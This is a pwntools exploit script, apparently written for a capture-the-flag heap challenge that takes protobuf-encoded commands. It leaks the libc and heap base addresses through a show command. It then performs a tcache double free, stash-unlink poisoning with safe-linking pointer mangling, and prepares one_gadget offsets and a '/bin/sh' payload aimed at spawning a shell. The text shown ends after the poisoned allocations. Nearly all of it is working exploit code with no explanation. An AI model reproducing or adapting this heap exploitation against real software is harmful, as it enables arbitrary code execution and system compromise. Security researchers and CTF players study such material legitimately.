```
 
def delete_chunk(index):
    heybro = Heybro_pb2.heybro()
    heybro.whattodo = 2
    heybro.whatidx = index
    heybro.whatsize = 0
    heybro.whatcon = b''
    heybro.whatsthis = 0
    p.sendafter(b'WANT?\n', heybro.SerializeToString())
 
 
def show_chunk(index):
    heybro = Heybro_pb2.heybro()
    heybro.whattodo = 3
    heybro.whatidx = index
    heybro.whatsize = 0
    heybro.whatcon = b''
    heybro.whatsthis = 0
    p.sendafter(b'WANT?\n', heybro.SerializeToString())
 
 
def shell():
    heybro = Heybro_pb2.heybro()
    heybro.whattodo = 3
    heybro.whatidx = 3
    heybro.whatsize = 0x30
    heybro.whatcon = b'a;' + b'/bin/sh\x00'
    heybro.whatsthis = 0
    p.sendafter(b'WANT?\n', heybro.SerializeToString())
 
 
# leak libc
add_chunk(0, b'a')
show_chunk(0)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x21ac61
libc.address = libc_base
success("libc_base = " + hex(libc_base))
 
# leak heap
add_chunk(1, b'b')  # clear tcache
for i in range(7 + 2):
    add_chunk(i, b'tcache')
 
for i in range(7):
    delete_chunk(6 - i)
 
show_chunk(6)
p.recvuntil(b'Content:')
heap_base = u64(p.recv(5).ljust(8, b'\x00')) << 12
heap_base = heap_base - 0x5000
success("heap_base = " + hex(heap_base))
 
# double free + tcache stash unlink
delete_chunk(7)
delete_chunk(8)
delete_chunk(7)
for i in range(7):
    add_chunk(i, b't')
one_gadget = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]
target = ((heap_base + 0x5410) >> 12) ^ (libc_base + 0x21a050)
add_chunk(7, p64(target))
add_chunk(7, b'useless')
add_chunk(7, b'useless')
```